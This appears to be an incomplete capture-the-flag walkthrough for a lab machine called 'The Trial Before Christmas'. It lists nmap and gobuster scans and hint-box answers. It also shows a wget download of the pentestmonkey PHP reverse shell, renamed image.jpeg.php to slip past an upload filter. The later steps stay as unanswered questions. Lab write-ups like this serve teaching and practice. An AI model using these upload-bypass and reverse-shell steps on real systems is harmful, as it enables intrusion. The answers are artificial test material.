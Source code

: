 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](../.gitbook/assets/image%20%28363%29.png)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```text
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](../.gitbook/assets/image%20%28365%29.png)

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28361%29.png)

![](../.gitbook/assets/image%20%28359%29.png)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28360%29.png)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell. 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](../.gitbook/assets/image%20%28362%29.png)

{% hint style="success" %}

{% endhint %}

What is the value of the web.txt flag?



Upgrade and stabilize your shell.



Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

\*\*\*\*

Access the database and discover the encrypted credentials. What is the name of the database you find these in?



Crack the password. What is it?



Use su to login to the newly discovered user by exploiting password reuse.



What is the value of the user.txt flag?



### Check the user's groups. Which group can be leveraged to escalate privileges?

###  

### Abuse this group to escalate privileges to root.



### What is the value of the root.txt flag?



